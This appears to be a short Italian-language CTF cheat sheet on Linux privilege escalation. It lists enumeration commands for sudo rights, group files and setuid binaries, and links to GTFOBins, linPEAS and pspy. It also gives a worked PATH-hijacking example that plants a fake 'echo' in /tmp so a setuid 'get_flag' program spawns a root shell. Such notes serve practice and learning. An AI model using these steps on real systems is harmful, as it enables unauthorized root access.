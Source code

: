 # Privilege Escalation 

link utile: https://hacktips.it/guida-privilege-escalation-sistemi-linux/

vedere cosa può fare l'utente come root:
```
sudo -l 
```

vedere cosa può fare l'utente nei gruppi:
```
id 
find / -group <GROUP> 2>/dev/null
```

## setuid program

trovare tutti i file setuid
```
find / -perm -u=s -type f 2>/dev/null
```

setuid eseguibili da un gruppo (o utente)
```
find / -perm -u=s -group <ID> 2>/dev/null
```

cercare file in https://gtfobins.github.io/gtfobins/

se il file esegue un altro programma modificare il path e creare un programma locale con lo stesso nome che fa altro.
esempio programma `./get_flag` che esegue echo:
```
cd /tmp
echo "/bin/bash" > echo
chmod 777 echo
echo $PATH
export PATH=/tmp:$PATH
cd /home/flag
./get_flag
```

## tools
- [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) --> enumerazione per privilege escalation 
- [pspy](https://github.com/DominicBreuker/pspy) --> enumera tutti i processi attivi sul sistema



